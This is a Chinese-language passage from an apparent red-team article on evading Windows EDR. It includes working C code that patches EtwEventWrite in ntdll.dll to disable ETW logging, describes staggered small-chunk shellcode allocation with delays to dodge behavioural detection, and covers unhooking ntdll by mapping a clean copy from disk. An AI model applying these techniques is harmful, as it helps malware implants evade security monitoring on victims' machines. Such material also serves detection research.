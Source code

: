 EtwEventWrite函数的作用是写入/记录ETW事件，获取该函数在ntdll.dll中的地址，然后，将其第一条指令替换为返回0（SUCCESS）的指令来绕过ETW

```c
typedef BOOL(WINAPI* pVirtualProtect)(LPVOID lpAddress, SIZE_T dwSize, DWORD  flNewProtect, PDWORD lpflOldProtect);

void disableETW(void) {
	// return 0
	unsigned char patch[] = { 0x48, 0x33, 0xc0, 0xc3 };     // xor rax, rax; ret

	ULONG oldprotect = 0;
	size_t size = sizeof(patch);

	HANDLE hCurrentProc = GetCurrentProcess();

	void* pEventWrite = GetProcAddress(GetModuleHandle(TEXT("ntdll.dll")), "EtwEventWrite");
	pVirtualProtect fnVirtualProtect = GetProcAddress(GetModuleHandle(TEXT("kernel32.dll")), "VirtualProtect");


	fnVirtualProtect(pEventWrite, size, PAGE_READWRITE, &oldprotect);

	memcpy(pEventWrite, patch, size / sizeof(patch[0]));

	fnVirtualProtect(pEventWrite, size, oldprotect, &oldprotect);

	FlushInstructionCache(hCurrentProc, pEventWrite, size);
}
```

但这种直接修改内存中dll的方式很容易直接报毒

##### 六 规避常见的恶意API调用模式

EDR行为检测为检测恶意模式，比如在很短的时间范围内针对特定的WINAPI的顺序调用，例如VirtualProtect等可疑的WINAPI调用通常用于执行shellcode，有时这些API也用于良性活动，通过延迟分配以及写入shellcode来规避检测

* 与其分配一大块内存并直接将~250KB的implant shellcode写入该内存，不如分配小块但连续的内存，例如<64KB的内存，并将其标记为NO_ACCESS。然后，将shellcode按照相应的块大小写入这些内存页中。
* 在上述的每一个操作之间引入延迟。这将增加执行shellcode所需的时间，但也会淡化连续执行模式。

Filip的[DripLoader](https://github.com/xuanxuan0/DripLoader)就实现了这些概念

##### 七 去除ntdll中的hook

###### 获得未hook的dll

例如Bit Defender，是直接在ntdll.dll中hook的，可以通过获得未hook的纯净dll来绕过，例如[RefleXXion](https://github.com/hlldz/RefleXXion)

###### 直接装载dll

dll是通过完全映射装载的，可以通过读取dll文件到内存中绕过hook

例如使用CreateFileMapping->MapViewOfFile映射ntdll.dll
